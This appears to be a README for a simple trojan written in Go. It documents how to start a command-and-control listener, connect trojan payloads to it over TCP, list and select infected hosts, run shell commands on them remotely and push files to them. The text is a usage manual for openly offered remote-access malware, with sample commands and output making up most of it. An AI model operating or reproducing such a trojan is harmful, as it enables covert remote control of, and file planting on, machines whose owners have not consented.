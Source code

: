 ## Go Trojan

Simple trojan written in GO. It features a command and control over cli and a trojan payload that communicates to the C&C over tcp.

# Usage:

 - Run the C&C:

```bash
trojan --listen
```

This starts up a C&C that listens on default port `9999`.

 - Connect a payload to the C&C:

```bash
trojan -port 9999
```

This will start a trojan payload that connects to the C&C on port `9999`.

- Now that we have a payload connected to our C&C we can run a view commands. You'll see the C&C prompt `<RL:#>`

show all payloads connected to C&C:

```bash
<RL:#> show
```

This will return the payload ids and addresses

```
ID: 57533aa3e5b07e4383951462 Address: 127.0.0.1:64635
ID: 57533aa3e5b07e4383951463 Address: 127.0.0.1:64634
```

- To communicate with the payload use the `use` command followed by the payloads address:

```bash
<RL:#> use 127.0.0.1:64346
```

You will notice now your prompt is changed to `<PL:#>`

- Execute a command in the remote server just type in a command:

```bash
<PL:#> ls -l
```

This will return the directory where the payload is running

- Send a file to the payload:

```bash
<PL:#> u: /path/to/file
```

This will send the specified file to the payload

- Exit out of the payload and go back to the main C&C

```bash
<PL:#> exit
```

You should see a message saying `payload exiting` and the prompt should be back to `<RL#>`
